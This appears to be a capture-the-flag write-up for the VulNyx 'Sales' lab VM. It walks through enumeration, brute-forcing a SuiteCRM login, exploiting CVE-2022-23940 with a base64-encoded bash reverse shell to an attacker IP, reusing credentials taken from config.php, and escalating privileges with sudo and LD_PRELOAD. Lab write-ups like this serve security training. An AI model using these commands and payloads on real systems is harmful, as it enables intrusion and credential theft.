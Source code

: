 ```yaml
---
title: VulNyx - Sales Writeup
date: 2025-06-05 17:03:00 +0530
categories: [Vulnyx, Writeups]
tags: [suitecrm, vhost, cve-2022-23940, ld_preload, credential_reuse, privesc, base64_shell, gobuster, wfuzz, intruder]
---
```


`Sales` is an easy difficulty linux box. This machine consists of brute-forcing a `SuiteCRM` login instance, using an authenticated RCE exploit to gain initial access, credential reuse, and finally privilege escalation by abusing the `sudo` privileges using `LD_PRELOAD`.

## Modifying /etc/hosts

```bash
❯ sudo nano /etc/hosts

192.168.25.14   sales.nyx
```

## Enumeration

### Nmap results

```bash
❯ nmap -p- sales.nyx   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-04 11:18 EDT
Nmap scan report for sales.nyx (192.168.25.14)
Host is up (0.00057s latency).
Not shown: 44696 filtered tcp ports (net-unreach), 20837 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 47.30 seconds
```

```bash
❯ nmap -sC -sV -p 22,80 sales.nyx
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-04 11:18 EDT
Nmap scan report for sales.nyx (192.168.25.14)
Host is up (0.0024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 dd:2c:11:05:8e:0a:ea:0b:df:52:60:ed:bf:b4:c2:92 (ECDSA)
|_  256 9d:5a:c5:8d:db:27:66:ca:35:30:05:1f:ad:25:40:3f (ED25519)

80/tcp open  http    Apache httpd 2.4.62
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: AksisDesign
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.70 seconds

```
As we can see we have OpenSSH running on port `22` and an Apache httpd server running on port `80`


### Directory Enumeration

### HTTP (80)
We couldn't find anything on the main webpage, i.e., `sales.nyx`. However we identified an email address which could possibly prove useful later on.

![image.png](/assets/img/sales_vulnyx/image%202.png)



Directory enumeration using GoBuster did not give us any fruitful results
```bash
❯ gobuster dir -u http://sales.nyx -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -e
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://sales.nyx
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://sales.nyx/images               (Status: 301) [Size: 307] [--> http://sales.nyx/images/]
http://sales.nyx/css                  (Status: 301) [Size: 304] [--> http://sales.nyx/css/]
http://sales.nyx/js                   (Status: 301) [Size: 303] [--> http://sales.nyx/js/]
http://sales.nyx/fonts                (Status: 301) [Size: 306] [--> http://sales.nyx/fonts/]
http://sales.nyx/server-status        (Status: 403) [Size: 274]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```

### Virtual Hosts (VHOSTS) Enumeration

```bash
❯ wfuzz -u "http://sales.nyx" -H "HOST: FUZZ.sales.nyx" -w subdomains-top1million-5000.txt --hl=9   
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://sales.nyx/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                   
=====================================================================

000000001:   200        387 L    1408 W     19489 Ch    "www - www"                                                                                                                                                               
000000072:   301        0 L      0 W        0 Ch        "crm - crm"                                                                                                                                                               

Total time: 2.589449
Processed Requests: 4989
Filtered Requests: 4987
Requests/sec.: 1926.664
```
While enumerating VHOSTS we discovered `crm.sales.nyx`  and added it to `/etc/hosts`

## crm.sales.nyx
We can see a login page for a SuiteCRM instance, which is an open-source Customer Relationship Management application.

![image.png](/assets/img/sales_vulnyx/image.png)

When testing open-source applications a simple trick that we can use to enumerate versions is to look for the presence of files that are frequently changed, like `README.md` and `CHANGELOG.md`. In some cases these file specifically mention the version of the application that is being run, and in other cases we can identify service versions by comparing file hashes of these files between releases.

![image.png](/assets/img/sales_vulnyx/image%201.png)

Version: SuiteCRM 7.12.4

`SuiteCRM 7.12.4` is vulnerable to `CVE-2022-23940` which allows Authenticated Remote Code Execution (RCE). [CVE-2022-23940 Exploit](https://nvd.nist.gov/vuln/detail/CVE-2022-23940)


## Brute-force Login

We created a word list using cewl and performed a brute-force attack using `Burp Intruder` while specifying the username as `yuna.yoon`, which was extracted from the email identified previously.

```bash
❯ cewl -d 3 http://sales.nyx -w wordlist.txt
```

![image.png](/assets/img/sales_vulnyx/image%203.png)


![image.png](/assets/img/sales_vulnyx/image%204.png)

By filtering by length a valid credential was identified, i.e., `AksisDesign` and used to successfully log in.

![image.png](/assets/img/sales_vulnyx/image%205.png)

![image.png](/assets/img/sales_vulnyx/image%206.png)


Since we now have valid credentials we can attempt to use the exploit for `CVE-2022-23940`. We started off with encoding our reverse shell in Base64 to avoid any issues due to bad characters.

## Base64 reverse shell

```bash
❯ echo -n 'bash -i >& /dev/tcp/192.168.25.4/1337 0>&1' | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI1LjQvMTMzNyAwPiYx
```

## Shell

```bash
❯ python3 exploit.py -h http://crm.sales.nyx -u yuna.yoon -p AksisDesign -P "echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI1LjQvMTMzNyAwPiYx | base64 -d | bash"
INFO:CVE-2022-23940:Login did work - Trying to create scheduled report
```

```bash
❯ nc -lvnp 1337
listening on [any] 1337 ...
connect to [192.168.25.4] from (UNKNOWN) [192.168.25.14] 51750
bash: cannot set terminal process group (636): Inappropriate ioctl for device
bash: no job control in this shell
www-data@template:/var/www/suitecrm$ 
```

## Credential Exposure in config.php

```bash
www-data@template:/var/www/suitecrm$ cat config.php
```

![image.png](/assets/img/sales_vulnyx/image%207.png)

```bash
'db_user_name' => 'suitecrm',
'db_password' => 'Ev3*CRm_DBaS3',
```

## Credential reuse
We identified a user `eve` on the target VM, and assuming that credenitals were being reused we were successfully able to switch to the user `eve`.

![image.png](/assets/img/sales_vulnyx/image%208.png)

### User flag

![image.png](/assets/img/sales_vulnyx/image%209.png)

## Privilege Escalation

### linpeas.sh
 
![image.png](/assets/img/sales_vulnyx/image%2010.png)

Using `linpeas.sh` we identified that `/bin/ping` can be run as root without specifying a password and this can be exploited using `LD_PRELOAD`

![image.png](/assets/img/sales_vulnyx/image%2011.png)

### Root flag
![image.png](/assets/img/sales_vulnyx/image%2012.png)